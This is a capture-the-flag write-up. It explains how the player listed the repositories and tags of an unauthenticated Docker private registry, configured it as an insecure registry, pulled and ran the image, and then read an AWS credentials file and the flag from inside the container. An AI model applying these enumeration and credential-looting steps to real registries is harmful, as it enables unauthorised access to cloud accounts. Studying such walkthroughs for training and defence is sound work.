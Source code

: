 Level 13: India
===============

Description
-----------

```
We use docker private registry to host our secure AWS app.

52.53.166.207
```
**Points**: 500

WriteUp
-------

So it seems that the company has started their own *Docker Hub*. A Google search for `docker private registry` throws interesting results such as [this](https://docs.docker.com/registry/deploying/). What is interesting from it is the fact that they are typically up in port 5000 and deployed with:

```
[…]
$ docker run -d -p 5000:5000 --restart=always --name registry registry:2
[…]
```

Typically, if we want to search in Docker Hub we can use `docker search whatever` but it is not possible to launch it directly to a private hub. Coming back to Google, we know want to try recover the available Docker images in the private hub and we find [this](https://forums.docker.com/t/docker-private-registry-how-to-list-all-images/21136/3) in the Docker Forums which claims that it is easy to call listing `https://<host>:<port>/v2/_catalog`. 

So, it's time to try it:
```
 curl http://52.53.166.207:5000/v2/_catalog
{"repositories":["dev-aws-test-code"]}
```
Great, it seems that we have found an image that matches the description of the challenge. Knowing that, the first idea is to try to directly recover the docekr image using `docker pull` but it says that it is not possible to recover the latest image:

```
$ docker pull 52.53.166.207:5000/dev-aws-test-code
Using default tag: latest
Pulling repository 52.53.166.207:5000/dev-aws-test-code
Error: image dev-aws-test-code:latest not found
```

So, this is an error that simply says that there is not image tagged as `:latest`, which is the default tag assumed when not provided. As we do not have Docker Hub web UI to ask for it, we come back to Google to ask for a way of listing the tags of an image and we find [this](https://docs.docker.com/registry/spec/api/#listing-image-tags) in the Docker documentation:

![List images](/res/level_13-list_images.png)

```
$ curl http://52.53.166.207:5000/v2/dev-aws-test-code/tags/list
{"name":"dev-aws-test-code","tags":["notreadyet"]}
```


But trying will raise errors because it will try to recover the images from a secure regitry using SSL. We have to take into account that we have to add the repository (`52.53.166.207:5000`) as an insecure repository to a specific daemon.json file that we have to create (full documentation [here](https://docs.docker.com/registry/insecure/).

The details of the daemon.json are simple:
```
{ "insecure-registries":["52.53.166.207:5000"] }
```
In my case, I have had to restart Docker before pulling the image from the new registry:

```
docker pull 52.53.166.207:5000/dev-aws-test-code
```

So that's why it crashed: there is no `latest` tag but there is a `notreadyet` (note that it's with just one 'y'). Time to pull it:

```
docker pull 52.53.166.207:5000/dev-aws-test-code:notreadyet
```

Once pulled, it's time to run the image with an interactive shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet
```
As it opens by default `htop`, we opt for opening it with an itneractive Bash shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/bash
docker: Error response from daemon: oci runtime error: container_linux.go:247: starting container process caused "exec: \"/bin/bash\": stat /bin/bash: no such file or directory".
```

The crash is suspicious, but we can try with `/bin/sh` nd it just works

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/sh
```


And inside the image, it's pretty straightforward. The lines that follow are copied directly from the terminal, but I think that self-explanatory:

```
/ # ls -la
total 6
total 68
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .aws
-rwxr-xr-x    1 root     root             0 Aug 12 14:03 .dockerenv
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 app
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 bin
drwxr-xr-x    5 root     root           360 Aug 12 14:03 dev
drwxr-xr-x   17 root     root          4096 Aug 12 14:03 etc
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 home
drwxr-xr-x    6 root     root          4096 Jul  5 14:47 lib
drwxr-xr-x    5 root     root          4096 Jul  5 14:47 media
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 mnt
dr-xr-xr-x  298 root     root             0 Aug 12 14:03 proc
drwx------    2 root     root          4096 Aug 12 14:03 root
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 run
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 sbin
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 srv
dr-xr-xr-x   13 root     root             0 Aug 12 14:03 sys
drwxrwxrwt    2 root     root          4096 Jul  5 14:47 tmp
drwxr-xr-x   10 root     root          4096 Jul  5 14:47 usr
drwxr-xr-x   12 root     root          4096 Jul  5 14:47 var

/var # cd
~ # ls -la
total 12
drwx------    2 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-------    1 root     root           362 Aug 12 14:06 .ash_history
~ # cd /app/
/app # ls -la
total 12
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            43 Aug 11 22:56 README.md
/app # cat README.md 
# Welcome

Need to fix the AWS credentials
/ # cd /.aws/
/.aws # ls -la
total 20
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            39 Aug 11 22:53 config
-rw-r--r--    1 root     root           116 Aug 11 22:54 credentials
-rw-r--r--    1 root     root           136 Aug 11 22:55 flag.txt
/.aws # cat credentials 
[default]
aws_access_key_id=AKIAIOSFODNN7EXAMPLE
aws_secret_access_key=wJalrXUtnFEMI/K7MDENG/bPxRfioEH62Bzo1TFGabmw
/.aws # cat config 
[default]
region=us-west-2
output=json
/.aws # cat flag.txt 
flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}
```
Done! :D

Solution
--------

```flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}```


Lessons Learned
---------------

The analyst arsenal for this challenge included:

- Google Search Engine
- Docker documentation
- Docker
- Basic GNU/Linux skills

Things not to forget in future competitions:

1. Keeping an eye to the official documentation and forums for each tool
2. Have ways of reformulating the technical needs after an error pop ups
3. When listing files in a CTF machine, do not forget `ls -la` to show hidden files instead of trying to be quicker with `ls`. That saves time. :)
